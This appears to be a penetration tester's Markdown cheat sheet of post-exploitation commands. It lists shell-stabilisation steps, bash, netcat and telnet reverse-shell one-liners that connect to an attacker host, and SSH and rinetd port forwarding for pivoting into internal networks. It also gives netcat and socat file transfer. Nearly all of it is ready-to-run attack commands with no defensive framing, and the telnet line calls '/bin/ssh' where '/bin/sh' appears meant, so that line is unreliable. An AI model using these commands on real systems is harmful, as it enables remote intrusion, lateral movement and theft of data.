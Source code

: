## [../](../)

# Shells

## Stabilizing shell

```text
SHELL=/bin/bash script -q /dev/null
[Ctrl + Z]
stty raw -echo
fg
reset
xterm
```

## Reverse shells

### Bash

```text
bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'
```

### Netcat

```text
nc -e /bin/sh <LHOST> <LPORT>
nc -c /bin/sh <LHOST> <LPORT>
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/y
```

### Telnet

```text
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/ssh -i 2>&1|telnet <LHOST> <LPORT> >/tmp/y
```

# Port forwarding

## rinetd

```text
rinetd
cat /etc/rinetd.conf
0.0.0.0 <local_port> <target> <target_port>
sudo service rinetd restart
ss -antp
```

## SSH

```text
# run on target machine
ssh -R 4444:127.0.0.1:3306 kali@<lhost>

# now you can connect to target's mysql port from your kali machine
mysql -u root -h 127.0.0.1 -P 4444
```

```text
# -L local
# -R remote
# -D dynamic

# attacker(a) <---internet---> initial_target(i) <---local_network---> target(t)
a> ssh -N -L 0.0.0.0:<a_port>:<t_ip>:<t_port> <user>@<i_port>

# attacker(a) <---firewall---> target(t)
t> ssh -N -R <a_ip>:<a_port>:localhost:<t_port> <user>@<a_ip>

# cont. on page 606
```

# Transfering files

### Netcat

Netcat is the easiest way to transfer files between Linux systems.

```text
# source
nc -nv <ip> <port> < <file>

# destination
nc -lvnp <port> > <file>
```

### Socat

You can also use socat if you want to use encrypted tunnel.

```text
# source
socat TCP4-LISTEN:<port>,fork file:<src_path>

# destination
socat TCP4:<ip>:<port> file:<dst_path>,create
```

